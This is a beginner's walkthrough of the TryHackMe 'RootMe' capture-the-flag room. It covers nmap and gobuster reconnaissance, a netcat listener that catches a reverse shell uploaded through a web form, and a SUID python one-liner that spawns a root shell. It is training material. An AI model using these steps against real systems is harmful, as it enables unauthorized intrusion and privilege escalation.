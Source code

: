 # RootMe

![RootMe](./images/RootMe.png)

[RootMe](https://tryhackme.com/r/room/rrootme) room is listed as an easy room, and covers a lot of different tools and aspects of security, which makes it a great room to complete for beginners.
An overview of what we’ll be using is listed here:  

* Basic linux commands
* Nmap scan
* Gobuster
* Netcat

## Task 1 - Deploy the machine

Set up environment IP as IP_Machine

```
export IP=10.10.234.161
```

![task1-IP](./images/task1-IP.png)

## Task 2 - Reconnaissance

* Scan the machine, how many ports are open?
	
	```
	nmap -sV $IP | tee -a nmap-default.txt
	```

	File scan resulted [here](./files/nmap-default.txt)

	![task2-nmap](./images/task2-nmap.png)

* What version of Apache is running?
	
	![task2-version](./images/task2-version.png)

* What service is running on port 22?
	
	![task2-ssh](./images/task2-ssh.png)

* Find directories on the web server using the GoBuster tool. What is the hidden directory?
	
	```
	gobuster dir -w /usr/share/wordlists/dirb/common.txt -u $IP | tee -a gobuster-default.txt
	```

	File scan resulted [here](./files/gobuster-default.txt)

	![task2-gobuster](./images/task2-gobuster.png)
	

## Task 3 - Getting a shell

* Find a form to upload and get a reverse shell, and find the flag `user.txt`
	
	* Upload reverse shell 
		
		![task3-reverse](./images/task3-reverse.png)

	* Open terminal for netcat listening
	
		```
		nc -nvlp 8888
		```

		![task3-nc](./images/task3-nc.png)

	* Open file upload from website
	
		![task3-shell](./images/task3-shell.png)

	* Get access to server

		![task3-access](./images/task3-access.png)

	* Find and read file `user.txt`
	
		![task3-user-txt](./images/task3-user-txt.png)

## Task 4 - Privilege escalation

* Search for files with SUID permission, which file is weird? 

	```
	find / -type f -perm -4000 -ls 2>/dev/null
	```

	![task4-find](./images/task4-find.png)

* root.txt

	```
	/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
	```

	![task4-root-txt](./images/task4-root-txt.png)



